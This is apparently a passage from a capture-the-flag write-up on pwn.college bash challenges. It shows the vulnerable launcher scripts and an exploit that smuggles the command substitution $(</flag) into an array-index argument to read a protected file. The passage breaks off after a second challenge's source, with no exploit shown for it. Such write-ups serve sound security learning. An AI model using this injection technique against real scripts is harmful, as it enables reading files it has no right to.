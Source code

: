 ```sh
	#cat /flag | md5sum
fi
```

### exploit
```sh
/challenge/run "a[\$(</flag)]"
```

# Index of Insanity

### chall

```sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

PROPAGANDA=(
	"bash is good"
	"bash is great"
	"bash is wonderful"
)

INDEX="$1"
echo "Your chosen bash affirmation is: ${PROPAGANDA[$INDEX]}"
```

### exploit
```sh
/challenge/run "a[\$(</flag)]"
```

# Saga of Sanitization

### chall
```sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin
WORKDIR=$(mktemp -d /tmp/tmpXXXXXXX) || exit 1
cd $WORKDIR

echo -e "Welcome! This is a launcher that lets you set an environment variable and then run a program!\nUsage: $0 VARNAME VARVALUE PROGRAM"
[ "$#" -eq 3 ] || exit 2

if [ "$3" != "fortune" ]
then
	echo "Only 'fortune' is supported right now!"
	exit 3
else
	cp /usr/games/fortune $WORKDIR
	PROGRAM="$WORKDIR/fortune"
fi

BADCHARS=$' \n\t='
VARIABLE="${1//[$BADCHARS]*/}"
[[ -v "$VARIABLE" ]] && exit 6
declare -- "$VARIABLE"="$2"
$PROGRAM
```